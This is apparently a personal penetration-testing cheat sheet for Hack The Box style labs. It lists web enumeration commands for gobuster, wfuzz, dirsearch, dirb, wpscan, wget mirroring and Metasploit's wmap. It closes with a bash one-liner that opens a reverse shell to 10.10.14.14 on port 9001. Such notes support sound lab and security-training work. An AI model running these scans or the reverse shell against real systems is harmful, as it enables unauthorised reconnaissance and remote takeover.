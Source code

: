 ## Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

## Search for subdomains

gobuster

```
gobuster vhost -u http://NAME.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -k -t 40
```

wfuzz

```
wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u URL -v -c -H "Host:FUZZ.NAME.htb" --hw 26
```

Search for PHP files

```
gobuster dir -u http://IP/ -t 80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

Backup: (Can get through things ^^^ can't)

```
dirsearch -u http://ipaddress
```

```
dirb http://IP/
```

-X .sh - extensions to search

-w /path/to/wordlist - wordlist


## Replicate website on local storage

```
wget http://ip/ -r
```
https:
```
wget http://ip/ -r --no-check-certificate
```

## Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## WMAP - Map website tool

Load module in msfconsole
```
load wmap
```

Add target site
```
wmap_sites -a http://IP
```
And
```
wmap_targets -t http://ip-address
```
Execute
```
wmap_run -e
```


## Reverse Shell through encded URL

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```
